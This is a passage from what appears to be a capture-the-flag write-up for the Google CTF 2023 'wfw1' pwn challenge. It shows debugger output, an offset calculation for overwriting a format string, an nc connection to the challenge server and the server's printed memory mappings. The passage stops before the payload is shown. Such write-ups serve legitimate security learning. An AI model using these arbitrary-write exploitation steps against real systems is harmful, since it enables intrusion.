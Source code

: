 Ignoring the libc's ones remains two possible address... But which one we should choose???
We would be capable to see the real address stepping into the program until we see

     ► 0x555555555368 <main+383>    call   dprintf@plt                <dprintf@plt>
            fd: 0xffffffff
            fmt: 0x5555555561e0 ◂— "Give me an address and a length just so:\n<address> <length>\nAnd I'll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n"
            vararg: 0x5555555561e0 ◂— "Give me an address and a length just so:\n<address> <length>\nAnd I'll write it wherever you want it to go.\nIf an exit is all that you desire\nSend me nothing and I will happily expire\n"
  
  So we will overwrite this address 0x5555555561e0, but as I said before this address will be different from what you will see on the server so we need an offset.
  So  `0x5555555561e0 - 0x555555554000 (starting address of the program) = 0x21e0`
  Or we can also recognize where  0x5555555561e0 is on our mappings we see it is between `0x555555556000     0x555555557000` so if we do `0x5555555561e0 - 0x555555556000 = 0x1e0`

# FLAG !!!
So after calculated the offset of the args of the printf, let's go and grab the flag...

    $ nc wfw1.2023.ctfcompetition.com 1337
    == proof-of-work: disabled ==
    This challenge is not a classical pwn
    In order to solve it will take skills of your own
    An excellent primitive you get for free
    Choose an address and I will write what I see
    But the author is cursed or perhaps it's just out of spite
    For the flag that you seek is the thing you will write
    ASLR isn't the challenge so I'll tell you what
    I'll give you my mappings so that you'll have a shot.
    5605acd5a000-5605acd5b000 r--p 00000000 00:11e 810424                    /home/user/chal
    5605acd5b000-5605acd5c000 r-xp 00001000 00:11e 810424                    /home/user/chal
    5605acd5c000-5605acd5d000 r--p 00002000 00:11e 810424                    /home/user/chal
    5605acd5d000-5605acd5e000 r--p 00002000 00:11e 810424                    /home/user/chal
    5605acd5e000-5605acd5f000 rw-p 00003000 00:11e 810424                    /home/user/chal
    5605acd5f000-5605acd60000 rw-p 00000000 00:00 0 
    7f340d1eb000-7f340d1ee000 rw-p 00000000 00:00 0 
    7f340d1ee000-7f340d216000 r--p 00000000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f340d216000-7f340d3ab000 r-xp 00028000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f340d3ab000-7f340d403000 r--p 001bd000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f340d403000-7f340d407000 r--p 00214000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f340d407000-7f340d409000 rw-p 00218000 00:11e 811203                    /usr/lib/x86_64-linux-gnu/libc.so.6
    7f340d409000-7f340d416000 rw-p 00000000 00:00 0 
    7f340d418000-7f340d41a000 rw-p 00000000 00:00 0 
    7f340d41a000-7f340d41c000 r--p 00000000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f340d41c000-7f340d446000 r-xp 00002000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f340d446000-7f340d451000 r--p 0002c000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f340d452000-7f340d454000 r--p 00037000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7f340d454000-7f340d456000 rw-p 00039000 00:11e 811185                    /usr/lib/x86_64-linux-gnu/ld-linux-x86-64.so.2
    7ffe33e81000-7ffe33ea2000 rw-p 00000000 00:00 0                          [stack]
    7ffe33eca000-7ffe33ece000 r--p 00000000 00:00 0                          [vvar]
    7ffe33ece000-7ffe33ed0000 r-xp 00000000 00:00 0                          [vdso]
    ffffffffff600000-ffffffffff601000 --xp 00000000 00:00 0                  [vsyscall]